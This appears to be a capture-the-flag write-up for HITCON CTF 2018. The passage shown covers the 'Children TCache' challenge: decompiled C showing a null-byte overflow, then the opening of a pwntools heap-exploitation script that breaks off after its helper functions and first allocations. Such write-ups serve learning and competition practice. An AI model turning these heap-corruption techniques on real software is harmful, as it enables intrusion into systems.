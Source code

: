 ```yaml
---
title:  HITCON CTF 2018
date:  2018-10-18
tags:
  - Heap
  - VM
  - Misc
categories:
  - Writeups
excerpt: "children tcache, abyss, super hexagon, ev3 basic"
---
```



# Pwn

## Children TCache

The program is simple, we can create, show, and delete heaps. But it will use `0xDA` to overwrite the clean the whole chunk. The vulnerability is a null-byte-overflow in `scanf`:
```c
unsigned __int64 new_heap()
{
  signed int i; // [rsp+Ch] [rbp-2034h]
  char *_malloc_ptr; // [rsp+10h] [rbp-2030h]
  unsigned __int64 size; // [rsp+18h] [rbp-2028h]
  char s; // [rsp+20h] [rbp-2020h]
  unsigned __int64 v5; // [rsp+2038h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(&s, 0, 0x2010uLL);
...
  read_data((__int64)&s, size);
  strcpy(_malloc_ptr, &s);
...
}
```

To exploit it, we need to:
```python
from pwn import *

# Geeral Operation
def _new(size, data, attack=False):
    p.sendlineafter('Your choice: ', '1')
    p.sendlineafter('Size:', str(size))
    p.sendlineafter('Data:', data)

def _show(index):
    p.sendlineafter('Your choice: ', '2')
    p.sendlineafter('Index:', str(index))

def _del(index):
    p.sendlineafter('Your choice: ', '3')
    p.sendlineafter('Index:', str(index))

p = process('./children_tcache', env = {'LD_PRELOAD': './libc.so.6'})
#gdb.attach(p)

# Set buffers, we will use chunk B to overwrite the prev_size of chunk C to merge it with chunk A
# Chunk d is used to prevent merging
_new(0x600, 'A' * 0x5ff)
_new(0x68, 'B' * 0x67)
```
